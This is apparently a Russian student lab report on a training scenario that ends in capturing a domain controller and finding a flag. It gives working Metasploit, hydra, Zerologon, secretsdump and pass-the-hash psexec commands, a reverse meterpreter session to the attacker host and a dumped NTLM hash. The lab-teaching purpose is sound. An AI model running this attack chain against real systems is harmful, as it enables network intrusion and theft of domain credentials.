










---
## Front matter
title: "Отчет по лабораторной работе №4-В. ЗАХВАТ КОНТРОЛЛЕРА ДОМЕНА"
subtitle: "Дисциплина: Кибербезопасность предприятия"
author:
  - "Боровиков Даниил"
  - "Хрусталев Влад" 
  - "Гисматуллин Артём"
  - "Чесноков Артёмий"
  - "Коннова Татьяна"
  - "Нефедова Наталья"
  - "Уткина Алина"
  - "Бансимба Клодели"
  
## Generic otions
lang: ru-RU
toc-title: "Содержание"

## Bibliography
bibliography: bib/cite.bib
csl: pandoc/csl/gost-r-7-0-5-2008-numeric.csl

## Pdf output format
toc: true # Table of contents
toc-depth: 2
lof: true # List of figures
lot: true # List of tables
fontsize: 12pt
linestretch: 1.5
papersize: a4
documentclass: scrreprt
## I18n polyglossia
polyglossia-lang:
  name: russian
  options:
	- spelling=modern
	- babelshorthands=true
polyglossia-otherlangs:
  name: english
## I18n babel
babel-lang: russian
babel-otherlangs: english
## Fonts
mainfont: IBM Plex Serif
romanfont: IBM Plex Serif
sansfont: IBM Plex Sans
monofont: IBM Plex Mono
mathfont: STIX Two Math
mainfontoptions: Ligatures=Common,Ligatures=TeX,Scale=0.94
romanfontoptions: Ligatures=Common,Ligatures=TeX,Scale=0.94
sansfontoptions: Ligatures=Common,Ligatures=TeX,Scale=MatchLowercase,Scale=0.94
monofontoptions: Scale=MatchLowercase,Scale=0.94,FakeStretch=0.9
mathfontoptions:
## Biblatex
biblatex: true
biblio-style: "gost-numeric"
biblatexoptions:
  - parentracker=true
  - backend=biber
  - hyperref=auto
  - language=auto
  - autolang=other*
  - citestyle=gost-numeric
## Pandoc-crossref LaTeX customization
figureTitle: "Рис."
tableTitle: "Таблица"
listingTitle: "Листинг"
lofTitle: "Список иллюстраций"
lotTitle: "Список таблиц"
lolTitle: "Листинги"
## Misc options
indent: true
header-includes:
  - \usepackage{indentfirst}
  - \usepackage{float} # keep figures where there are in the text
  - \floatplacement{figure}{H} # keep figures where there are in the text
---

# Введение 

**Цель работы:** Получить доступ к контроллеру домена и найти флаг в свойствах доменного пользователя «Flag» **в рамках сценария №3**

**Исходные данные:**
- Внешний IP: 195.239.174.11 (атакующая машина)
- Целевые хосты: 
  - WordPress портал: 195.239.174.25
  - Почтовый сервер: 195.239.174.1
  - Контроллер домена: 10.10.10.20
- Домен: ampire.corp

# Этап 1: Получение начального доступа

## 1.1 Атака на WordPress портал

Для получения доступа использовалась уязвимость в плагине wpdiscuz (рис. [-@fig:001]):

```bash
use exploit/unix/webapp/wp_wpdiscuz_unauthenticated_file_upload
set rhosts 195.239.174.25
set lhost 195.239.174.11
set blogpath /index.php/2021/07/26/hello-world/
run
```

{ #fig:001 width=70%, height=70% }


**Результат:** Получена meterpreter-сессия на портале (рис. [-@fig:002]):
```
meterpreter > sysinfo
Computer    : portal
OS    : Linux portal 4.15.0-173-generic #182-Ubuntu SMP Fri Mar 18 15:53:46 UTC 2022 x86_64
Meterpreter : php/linux
```

{ #fig:002 width=70%, height=70% }


## 1.2 Апгрейд сессии

Для улучшения функциональности сессии выполнен апгрейд (рис. [-@fig:003]):
```bash
sessions -u 2
```
Получена новая сессия с ID 3.

{ #fig:003 width=70%, height=70% }

# Этап 2: Разведка внутренней сети

## 2.1 Анализ сетевых интерфейсов

Выполнена проверка сетевых интерфейсов (рис. [-@fig:004]):

```bash
ip a
```

{ #fig:004 width=70%, height=70% }

**Обнаружено:** Внутренняя сеть 10.10.10.0/24 

## 2.2 Сканирование сети

Использован модуль ping_sweep для обнаружения активных хостов (рис. [-@fig:005]):

```bash
run post/multi/gather/ping_sweep RHOSTS=10.10.10.0/24
```

{ #fig:005 width=70%, height=70% }

Просмотр ARP-таблицы (рис. [-@fig:006]):
```bash
arp
```

{ #fig:006 width=70%, height=70% }

**Результат:** Обнаружены multiple хосты во внутренней сети, включая шлюз 10.10.10.254.

## 2.3 Настройка маршрутизации

Добавлен маршрут до внутренней сети (рис. [-@fig:007]):

```bash
run autoroute -s 10.10.10.0/24
```

{ #fig:007 width=70%, height=70% }

Проверка активных маршрутов (рис. [-@fig:008]):

```bash
route print
```

{ #fig:008 width=70%, height=70% }

## 2.4 Настройка SOCKS прокси

Далее был настроен SOCKS прокси для туннелирования трафика:

Конфигурация файла `/etc/proxychains4.conf` (рис. [-@fig:009]):

```
socks5 127.0.0.1 1080
```

{ #fig:009 width=70%, height=70% }

Запуск SOCKS сервера в Metasploit (рис. [-@fig:010]):
```bash
use auxiliary/server/socks_proxy
set svhost 127.0.0.1
set svport 1080
set version 5
run
```

{ #fig:010 width=70%, height=70% }

# Этап 3: Атака на контроллер домена

## 3.1 Сканирование портов контроллера домена

Выполнено сканирование портов через прокси (рис. [-@fig:011]):

```bash
proxychains nmap -n -sT -Pn --top-ports 100 10.10.10.20
```

{ #fig:011 width=70%, height=70% }

**Обнаружены критические порты:**
- 53/tcp - DNS
- 88/tcp - Kerberos
- 389/tcp - LDAP
- 445/tcp - SMB
- 3389/tcp - RDP

## 3.2 Атака перебором паролей (Bruteforce)

На основе информации с сайта об email менеджера, выполнена атака на RDP (рис. [-@fig:012]):

```bash
proxychains hydra -V -f -l manager1@ampire.corp -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.20
```

{ #fig:012 width=70%, height=70% }

**Результат:** Успешно подобран пароль учетной записи manager1@ampire.corp.

## 3.3 Поиск информации через LDAP

Использованы полученные учетные данные для поиска в Active Directory (рис. [-@fig:013] - рис. [-@fig:014]):

```bash
proxychains ldapsearch -H ldap://10.10.10.20 -D "manager1@ampire.corp" -W -b "dc=ampire,dc=corp"
```

{ #fig:013 width=70%, height=70% }

**Обнаружено:** Пользователь "Flag" с атрибутом description.

{ #fig:014 width=70%, height=70% }

## 3.4 Альтернативный вектор: Эксплуатация Zerologon

### 3.4.1 Проверка уязвимости

Использован crackmapexec для проверки уязвимости (рис. [-@fig:015] - рис. [-@fig:016]):

```bash
proxychains crackmapexec smb 10.10.10.20 -M zerologon
```

{ #fig:015 width=70%, height=70% }

**Результат:** Система уязвима к CVE-2020-1472.

{ #fig:016 width=70%, height=70% }

### 3.4.2 Эксплуатация уязвимости

Запущен модуль Zerologon в Metasploit (рис. [-@fig:017]):

```bash
use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
set rhosts 10.10.10.20
set nbname AD
run
```

{ #fig:017 width=70%, height=70% }

**Результат:** Пароль machine account сброшен.

### 3.4.3 Дамп хешей

Получен дамп хешей учетных записей (рис. [-@fig:018]):
```bash
proxychains impacket-secretsdump 'AD$@10.10.10.20' -no-pass
```

{ #fig:018 width=70%, height=70% }

**Получены:** Хеши всех пользователей домена, включая Administrator.

### 3.4.4 Получение сессии на контроллере домена

Использован модуль psexec с полученным хешем (рис. [-@fig:019]):

```bash
use exploit/windows/smb/psexec
set smbuser Administrator
set smbpass aad3b435b51404eeaad3b435b51404ee:1b21da9cb62cfcaf16c5dd263255bf6f
set rhosts 10.10.10.20
set lhost 195.239.174.11
run
```

{ #fig:019 width=70%, height=70% }

**Результат:** Успешное получение meterpreter-сессии на контроллере домена.

# Этап 4: Получение флага

## 4.1 Поиск через LDAP (первый метод)

Из вывода ldapsearch получен флаг:
```
cn: Flag
description: 63278
```

## 4.2 Подтверждение через командную оболочку

Через полученную сессию на контроллере домена (рис. [-@fig:020])
```bash
shell
net user /domain Flag
```

**Результат:** В поле "Comment" пользователя Flag найден флаг: **63278**

{ #fig:020 width=70%, height=70% }

Общие результаты (рис. [-@fig:021]):

{ #fig:021 width=70%, height=70% }

# Выводы

В ходе лабораторной работы успешно выполнены все этапы атаки на контроллер домена:

1. **Начальный доступ** - получен через уязвимость в WordPress плагине
2. **Разведка сети** - обнаружена внутренняя сеть 10.10.10.0/24
3. **Туннелирование** - настроены маршруты и SOCKS прокси
4. **Обнаружение цели** - идентифицирован контроллер домена 10.10.10.20
5. **Multiple attack vectors**:
   - Успешный bruteforce RDP
   - Поиск через LDAP
   - Эксплуатация критической уязвимости Zerologon
6. **Эскалация привилегий** - получен полный доступ к домену
7. **Достижение цели** - найден флаг **63278**

Работа демонстрирует важность комплексного подхода к безопасности и своевременного устранения известных уязвимостей.

